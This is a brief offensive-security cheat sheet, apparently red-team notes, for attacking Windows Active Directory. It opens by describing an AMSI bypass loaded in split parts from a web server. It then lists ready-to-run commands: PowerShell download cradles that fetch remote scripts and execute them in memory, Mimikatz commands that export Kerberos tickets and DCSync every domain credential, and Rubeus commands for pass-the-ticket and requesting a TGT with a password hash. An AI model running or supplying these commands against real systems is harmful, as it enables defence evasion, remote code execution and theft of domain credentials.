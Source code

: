 Bypass folder of web server will have AMSI bypass splitted and loaded in parts, then, run whatever payload chosen.
### Powershell useful commands
```
# Load script to memory
(New-Object System.Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1') | iex
IEX (New-Object Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1')
```

### Mimikatz
```
# Export Kerberos tickets from memory
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::tickets /export"'
# DCSync:
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /domain:infinity.com /all"'
```

### Rubeus
```
# Monitor Kerberos tickets on unconstrained delegation machine
Invoke-Rubeus -Command "monitor /internal:5"
# Load Kerberos ticket:
Rubeus.exe ptt /ticket:base64
# Ask TGT:
.\Rubeus.exe asktgt /user:administrator /domain:infinity.com /rc4:5f9163ca3b673adfff2828f368ca3760 /ptt
```


